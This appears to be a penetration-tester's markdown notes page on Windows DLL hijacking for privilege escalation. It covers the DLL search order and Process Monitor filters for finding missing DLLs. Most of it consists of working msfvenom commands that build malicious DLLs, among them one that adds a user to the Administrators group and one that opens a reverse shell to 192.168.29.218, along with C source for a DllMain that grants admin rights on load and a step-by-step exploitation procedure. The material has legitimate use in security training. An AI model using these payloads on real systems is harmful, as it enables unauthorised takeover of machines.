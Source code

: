 [ExploitDb](https://www.exploit-db.com/exploits/14748)

DLL hijacking is a common technique used to escalate privileges on windows system when services or applications attempt to load a non-existent or improperly specified DLL. if an attacker can place a malicious DLL in a directory that gets searched first, the application will execute the attacker's code.

### DLL Search Order on Windows

when a process starts and attempts to load a DLL without a full path, windows searches in the following order:

1.  The directory from which the application was loaded (IMP)
2.  ``C:\Windows\System32``
3.  ``C:\Windows\System``
4.  ``C:\Windows``
5.  The current working Directory
6.  Directories listed in the ``PATH`` variable (IMP)

---

### Tools for DLL Hijacking

#### Process monitor (Sysinternals)


[Sysinternals](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon)

**Setup a Dilter (Ctrl + L)**

*   Result -> is -> ``NAME NOT FOUND`` -> include
*   Path -> ends with -> ``.dll`` -> include

Helps detect which DLLs are being searched and not found(missing)

#### Rattler (DLL hijack Finder)

*    A tool **sensepost** to automate the discovery of DLL hijack opportunities.

---

### Generating Malicious DLLs with ``msfvenom``

#### Open Paint

```bash
msfvenom -p windows/exec CMD='mspaint' -f dll > 1.dll
```

#### Open Calculator

```bash
msfvenom -p windows/exec CMD=cacl.exe -f dll > 1.dll
```

#### Add User to Administrator Group

```bash
msfvenom -p windows/exec CMD='net localgroup administrators DevNull /add' -f dll > 1.dll
```

#### Reverse Shell Payload

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=192.168.29.218 LPORT=43 -f dll > 1.dll
```

---

### Manual DLL Creation

``windows_dll.c``

```C
//Set x64 compile with : x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
//Set x32 compile with : i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll

#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDLL, DWORD dwReason, LPVOID lpReserved) {
    if( dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k net localgroup administrators rahul /add");
    }
    return TRUE;
}
```


--- 

### Exploitation Steps

1.  **Identify missing DLLs** using **Process Monitor** or similar tool.
2.  **Verify write access** to the directory where the DLL is expected.
3.  **Generate malicious DLL** using ``msfvenom`` or a custom payload.
4.  **Place he DLL** in the vulnerable directory.
5.  **Trigger the process or reboot** the system to execute the DLL.